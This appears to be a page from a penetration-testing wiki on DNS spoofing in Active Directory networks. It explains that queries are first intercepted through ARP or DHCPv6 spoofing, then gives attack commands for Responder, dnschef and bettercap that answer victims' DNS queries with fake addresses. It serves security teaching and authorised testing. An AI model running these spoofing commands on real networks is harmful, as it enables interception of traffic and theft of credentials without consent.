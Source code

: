 ```yaml
---
authors: 'ShutdownRepo, sckdev'
category: ad
---
```


# DNS spoofing

## Theory

DNS is not multicast or broadcast like [LLMNR, NBT-NS or mDNS](llmnr-nbtns-mdns-spoofing.md). In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

::: tabs

=== Responder

[Responder](https://github.com/SpiderLabs/Responder)'s (Python) DNS server feature can be used to answer DNS queries.

```bash
responder --interface "eth0"
responder -I "eth0"
```


=== dnschef

[dnschef](https://github.com/iphelix/dnschef) (Python) can be used as a DNS server. 

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```


=== bettercap

In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) (Go) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). 

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```

:::


## Resources

[https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/](https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/)
